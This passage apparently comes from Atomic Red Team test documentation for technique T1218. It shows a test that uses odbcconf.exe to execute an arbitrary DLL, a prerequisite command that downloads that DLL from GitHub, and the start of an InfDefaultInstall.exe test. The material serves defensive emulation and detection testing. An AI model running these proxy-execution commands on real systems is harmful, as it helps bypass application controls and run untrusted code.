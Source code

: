 ## Atomic Test #7 - Odbcconf.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1218/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #8 - InfDefaultInstall.exe .inf Execution
Test execution of a .inf using InfDefaultInstall.exe

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Infdefaultinstall.yml

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218&#92;src&#92;Infdefaultinstall.inf|
